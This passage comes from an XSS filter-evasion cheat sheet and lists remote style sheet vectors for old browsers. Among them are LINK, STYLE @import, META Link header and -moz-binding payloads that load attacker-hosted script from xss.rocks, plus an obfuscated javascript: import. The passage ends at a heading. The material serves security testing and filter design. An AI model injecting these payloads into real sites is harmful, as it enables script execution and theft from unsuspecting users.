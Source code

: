 ```js
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```

## Remote style sheet
Using something as simple as a remote style sheet you can include your XSS as the style parameter can be redefined using an embedded expression. This only works in IE and Netscape 8.1+ in IE rendering engine mode. Notice that there is nothing on the page to show that there is included JavaScript. Note: With all of these remote style sheet examples they use the body tag, so it won’t work unless there is some content on the page other than the vector itself, so you’ll need to add a single letter to the page to make it work if it’s an otherwise blank page:

```js
<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">
```

## Remote style sheet part 2
This works the same as above, but uses a `<STYLE>` tag instead of a `<LINK>` tag). A slight variation on this vector was used to hack Google Desktop. As a side note, you can remove the end `</STYLE>` tag if there is HTML immediately after the vector to close it. This is useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real world:

```js
<STYLE>@import'http://xss.rocks/xss.css';</STYLE>
```

## Remote style sheet part 3
This only works in Opera 8.0 (no longer in 9.x) but is fairly tricky. According to RFC2616 setting a link header is not part of the HTTP1.1 spec, however some browsers still allow it (like Firefox and Opera). The trick here is that I am setting a header (which is basically no different than in the HTTP header saying Link: <http://xss.rocks/xss.css>; REL=stylesheet) and the remote style sheet with my cross site scripting ## vector is running the JavaScript, which is not supported in FireFox:

```js
<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">
```

## Remote style sheet part 4
This only works in Gecko rendering engines and works by binding an XUL file to the parent page. I think the irony here is that Netscape assumes that Gecko is safer and therefor is vulnerable to this for the vast ## majority of sites:

```js
<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>
```

## STYLE Tags with Broken-up JavaScript for XSS
This XSS at times sends IE into an infinite loop of alerts:

```js
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```
## STYLE Attribute using a Comment to Break-up Expression
Created by Roman Ivanov
